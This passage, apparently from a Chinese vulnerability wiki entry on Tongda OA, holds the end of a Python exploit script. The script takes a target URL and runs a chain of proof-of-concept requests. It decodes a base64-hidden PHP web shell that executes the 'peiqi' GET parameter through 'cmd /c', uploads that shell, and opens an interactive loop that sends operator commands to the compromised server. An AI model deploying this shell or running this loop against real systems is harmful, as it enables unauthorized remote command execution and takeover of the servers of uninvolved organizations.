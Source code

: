 ```python
        else:
            print("\033[31m[x] 命令执行失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败，{} \033[0m".format(e))
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
    POC_2(target_url)
    payload_php = base64.b64decode("PD9waHAKICAgICRjb21tYW5kPSRfR0VUWydwZWlxaSddOwogICAgJHdzaCA9IG5ldyBDT00oJ1dTY3JpcHQuc2hlbGwnKTsKICAgICRleGVjID0gJHdzaC0+ZXhlYygiY21kIC9jICIuJGNvbW1hbmQpOwogICAgJHN0ZG91dCA9ICRleGVjLT5TdGRPdXQoKTsKICAgICRzdHJvdXRwdXQgPSAkc3Rkb3V0LT5SZWFkQWxsKCk7CiAgICBlY2hvICRzdHJvdXRwdXQ7Cj8+").decode("utf-8")
    POC_3(target_url, payload_php)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        else:
            POC_4(target_url, cmd)
```

![](http://wikioss.peiqi.tech/vuln/tongdaoa-24.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)